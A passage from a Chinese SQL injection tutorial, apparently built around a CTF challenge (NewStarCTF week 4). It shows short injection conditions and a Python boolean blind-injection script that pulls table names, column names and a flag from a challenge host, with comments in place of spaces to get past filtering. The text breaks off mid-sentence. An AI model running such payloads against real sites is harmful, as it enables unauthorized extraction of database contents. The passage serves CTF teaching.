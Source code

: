 常常利用**and or ||** **&&**作为拼接条件的语句，如：

```
?id=-1 && length( database() )>1 --+
?id=1 and length( database() )>1 --+
?id=-1 || length( database() )>1 --+
?id=-1 or length( database() )>1 --+
```

## 布尔盲注

进行布尔盲注的条件是页面会有回显作为语句执行是否成功的标志，一般我们可以先用永真条件`or 1=1`与永假条件`and 1=2`的返回内容是否存在差异进行判断是否可以进行布尔盲注，具体语句与联合注入类似，以newstarctf week4的又一个SQL为例，脚本参考[NewStarCTF-Week3&4的WEB题目详解](https://forum.butian.net/share/1961)：

```
import requests
import string
import time
att=string.digits+string.ascii_letters+'}{-$_.^,'
# print(att)

flag=''

url='http://eedea255-193b-45f8-b87f-de7ee7324fa8.node4.buuoj.cn:81/comments.php?name='
for i in range(1,50):
    for a in att:
        # payload='0/***/or/***/(substr(database(),{},1)="{}")'.format(i,a)
        # payload='0/***/or/***/(substr((select/***/group_concat(table_name)/***/from/***/information_schema.tables/***/where/***/table_schema=database()),{},1)="{}")'.format(i,a)
        # payload='0/***/or/***/(substr((select/***/group_concat(column_name)/***/from/***/information_schema.columns/***/where/***/table_schema=database()/***/and/***/table_name="wfy_admin"),{},1)="{}")'.format(i,a)
        # payload='0/***/or/***/(substr((select/***/group_concat(column_name)/***/from/***/information_schema.columns/***/where/***/table_schema=database()/***/and/***/table_name="wfy_comments"),{},1)="{}")'.format(i,a)
        payload='0/***/or/***/(substr((select/***/text/***/from/***/`wfy_comments`/***/where/***/id=100),{},1)/***/like/***/binary/***/"{}")'.format(i,a)
        res=requests.get(url=url+payload)
        time.sleep(0.1)
        if "好耶！你有这条来自条留言" in res.text:
            flag+=a
            print(flag)
            break

print(flag)
#wfy
#wfy_admin,wfy_comments,wfy_information
#wfy_admin:id,username,password,cookie
#wfy_comments:id,text,user,name,display
#flag{We_0nly_have_2wo_choices}
```

这里我们使用/**/代替空格，前面的语句都和之前union注入差不多，只有最后一句稍有不同，我们使用的是：
